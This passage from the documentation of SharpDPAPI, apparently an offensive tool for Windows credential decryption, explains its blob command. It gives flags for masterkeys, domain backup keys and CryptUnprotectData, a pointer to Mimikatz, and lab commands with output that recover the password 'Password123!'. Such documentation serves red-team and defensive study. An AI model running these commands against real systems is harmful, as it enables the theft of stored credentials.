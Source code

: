  CredFile : C:\Temp\cred.xml
 Accessed : 7/25/2019 1212 PM
 Modified : 7/25/2019 1212 PM
 User Name : TESTLAB\user
 guidMasterKey : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
 size : 170
 flags : 0x0
 algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
 description :
 Password : Password123!


#### blob

The **blob** command will describe/decrypt a DPAPI blob. A `/target:<BASE64|blob.bin>` *must* be supplied.

The command will a) decrypt the blob with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

The `/unprotect` flag will use CryptUnprotectData() to decrypt the blob without masterkeys needed, *if* the command is run from the user context who saved the passwords. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https/github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

Decrypt a blob using CryptProtectData() (the `/unprotect` flag):

C:\Temp>SharpDPAPI.exe blob /target\Temp\blob.bin /unprotect

 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.5.0


 [*] Action: Describe DPAPI blob

 [*] Using CryptUnprotectData() for decryption.

 guidMasterKey : {0241bc33-44ae-404a-b05d-a35eea8cbc63}
 size : 170
 flags : 0x0
 algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
 description :
 dec(blob) : Password123!


Using domain {GUID}:SHA1 masterkey mappings:

 C:\Temp>SharpDPAPI.exe blob /target\Temp\blob2.bin {0241bc33-44ae-404a-b05d-a35eea8cbc63}:E7E481877B9D51C17E015EB3C1F72FB887363EE3
